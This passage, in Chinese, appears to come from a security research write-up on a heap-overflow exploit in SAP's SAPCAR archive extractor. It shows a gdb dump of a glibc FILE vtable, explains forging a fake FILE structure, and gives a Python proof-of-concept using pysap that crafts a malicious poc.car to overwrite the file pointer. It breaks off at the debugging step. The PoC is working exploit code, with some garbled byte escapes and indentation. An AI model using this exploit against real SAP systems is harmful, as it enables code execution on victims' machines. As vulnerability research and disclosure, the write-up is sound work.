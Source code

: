 ```
  __setbuf = 0x7ffff6bbc430 &lt;_IO_new_file_setbuf&gt;, 
  __sync = 0x7ffff6bbc370 &lt;_IO_new_file_sync&gt;, 
  __doallocate = 0x7ffff6bb1180 &lt;__GI__IO_file_doallocate&gt;, 
  __read = 0x7ffff6bbd1a0 &lt;__GI__IO_file_read&gt;, 
  __write = 0x7ffff6bbcb70 &lt;_IO_new_file_write&gt;, 
  __seek = 0x7ffff6bbc970 &lt;__GI__IO_file_seek&gt;, 
  __close = 0x7ffff6bbc340 &lt;__GI__IO_file_close&gt;, 
  __stat = 0x7ffff6bbcb60 &lt;__GI__IO_file_stat&gt;, 
  __showmanyc = 0x7ffff6bc0af0 &lt;_IO_default_showmanyc&gt;, 
  __imbue = 0x7ffff6bc0b00 &lt;_IO_default_imbue&gt;
`}`
```

由于我们可以控制文件指针以及输入文件中的数据，我们就可以伪造一个FILE结构并设置一个自定义的vtable指针。

我们将使用pysap库来创建CAR文档，我们可以使用pip命令安装pysap：

```
$ pip install pysap
```

**4.1 重写文件指针**

第一步就是用任意值重写文件指针。我们首先用0x1100字节数据填充缓冲区，然后又添加了某些数据填充了堆空间，指针成功分配之后我们就要重写指针了。

PoC代码如下：

```
#!/usr/bin/env python
import struct
from scapy.packet import Raw
from pysap.SAPCAR import *
def overwrite_FILE_pointer(address):
    fill_buf = "A" * 0x1100
    gap_to_fp = "B" * 0x38
    fp = struct.pack("&lt;Q", address)
    return fill_buf + gap_to_fp + fp
def write_exp(data):
    with open("sapevents.dll", "w") as fd:
        fd.write("Some string to compress")
    f = SAPCARArchive("poc.car", mode="wb", version=SAPCAR_VERSION_200)
    f.add_file("sapevents.dll")
    f._sapcar.files0[0].blocks.append(Raw("DAx08x00x00x00"))
    f._sapcar.files0[0].blocks.append(Raw("DAx84x65x00x00"))
    f._sapcar.files0[0].blocks.append(Raw("D&gt;" + "x00"*32 + "xd0xd0"))
    f._sapcar.files0[0].blocks.append(Raw(data))
    f.write()
def main():
    write_exp(overwrite_FILE_pointer(0x4242424243434343))
if __name__ == "__main__":
main()
```

运行PoC后会创建一个poc.car文件，然后绑定gdb并运行该文件：
